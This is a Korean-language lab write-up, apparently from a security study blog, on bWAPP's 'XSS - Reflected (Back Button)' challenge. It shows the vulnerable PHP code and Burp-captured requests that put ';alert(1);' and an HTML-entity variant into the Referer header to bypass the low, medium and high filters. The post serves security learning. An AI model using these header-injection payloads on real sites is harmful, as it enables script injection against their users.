 ```yaml
---
layout: single
title: (bWAPP)XSS - Reflected (Back Button)
categories: bwapp
tag: [xss,reflected,stored,reflected xss, bee box,stored xss, OWASP TOP 10, OWASP, bwapp, dom xss]
toc: true
author_profile: false
---
```


## Level - Low

![그림 1-1](/assets/image/bwapp/xss/Reflected%20(Back)-archive/image.png)
- go back라는 버튼이 존재.
- 해당 버튼을 누르면 이전 사이트로 Redirect 됨

```php
<input type=button value="Go back" onClick="document.location.href='<?php echo isset($_SERVER["HTTP_REFERER"]) ? xss($_SERVER["HTTP_REFERER"]) : ""?>'">
```

- 위의 해당 시나리오에서 제공되는 소스코드를 보게되면,
- 사용자의 요청헤더 중 Referer 헤더의 내용을 가져와 isset 함수의 인자로 사용된다.

```
GET /bWAPP/portal.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.146.133/bWAPP/xss_back_button.php
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

- 요청값을 버프스위트를 통해 확인해보면 Go back 버튼을 누르게 되면
- Referer 헤더의 값으로 이전 위치가 지정되어있는 걸 알 수 있다.
- 이를 통해 Referer 헤더를 변조시켜 악성 스크립트가 가능하다.

```php
<input type=button value="Go back" onClick="document.location.href='<?php echo isset($_SERVER["HTTP_REFERER"]) ? xss($_SERVER["HTTP_REFERER"]) : ""?>'">
```

- 위 부분에서 onClick 부분이 document.location.href='<?php >~~' 로 되어있다.
- 이 때 입력값을 ';alert(1);' 을 주어 스크립트를 실행시킬 수 있다.
- ';를 통해 document.location.href를 종료시키고 alert 이벤트를 호출 후 ;종료 후 '를 통해 뒷 부분에서의 오류가 발생하지 않도록 이어준다.
- 즉 \<input type=button value="Go back" onClick="document.location.href='<?php echo isset(';alert(1);') ? xss($_SERVER["HTTP_REFERER"]) : ""?>'"> 가 완성되게 된다.

```
GET /bWAPP/xss_back_button.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: ';alert(1);'
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

> 이 때 요청값을 잡기 전에 새로고침을 통해 Referer 값을 현재 사이트인 xss_back_button.php 로 잡아놓아야한다.

![그림 1-2 ](/assets/image/bwapp/xss/Reflected%20(Back)-archive/image-1.png)
- 성공적으로 alert창이 띄워진 걸 볼 수 있다.

## Level - Medium & High

```php
return htmlentities($data, ENT_QUOTES);
```

- medium Level의 필터링 부분이다.
- htmlentities 함수를 사용해서 '(싱글 쿼터)를 필터링 하고 있다.
- 이 경우 HTML Entity 문자를 사용하여 우회할 수 있다.
- '(싱글 쿼터) 대신 &apos; 혹은 &#39; 을 사용하여 우회할 수 있다.

```
GET /bWAPP/xss_back_button.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: &apos;;alert(1);&apos;
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

```php
return htmlspecialchars($data, ENT_QUOTES, $encoding);
```

- High Level 에서의 필터링 부분이다.
- htmlspecialchars 함수를 사용하여 메타 문자에 대해 Html Entity 값으로 변환 하여 필터링 하고 있다.
- 해당 시나리오에서는 서버측에서 HTML Entity 값을 제대로 해석하지 못하고 일반적인 HTML 문자로 변환하여 반환하므로 이전과 동일한 ';alert(1);'을 통한 스크립트 실행이 가능하다.

```
GET /bWAPP/xss_back_button.php HTTP/1.1
Host: 192.168.146.133
Cookie: security_level=0; PHPSESSID=2fc85d4842bc7f4f7a44f30e9a034c2f
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: ';alert(1);'
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```